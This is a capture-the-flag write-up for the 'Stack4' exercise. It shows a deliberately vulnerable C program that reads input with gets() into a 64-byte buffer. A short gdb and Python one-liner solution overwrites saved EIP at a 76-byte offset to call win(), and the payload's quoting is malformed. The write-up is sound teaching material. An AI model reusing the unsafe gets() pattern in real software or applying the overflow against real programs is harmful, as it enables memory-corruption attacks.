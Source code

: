 # Stack4

## Description
Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

## Source Code 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
## Solution 
On looking the source code we cannot see any variable to change value. To call the win function, we need to change the value of instruction pointer with the address of win function. We can easily get the address of win function.
![screenshot](screenshot1.jpg) 
After this we need to find where the instruction pointer `eip` is. For this we can enter any random large input and check the value of registers and match the location of eip in the buffer.
![screenshot](screenshot2.jpg) 
Then we can just add the address of the win function in this pointer just like we did in previous questions.
```bash
gdb stack4
x win
r
info registers
python -c "print(('1'*76)+\'xf4\x83\x04\x08')" | ./stack4
```
![screenshot](screenshot3.jpg)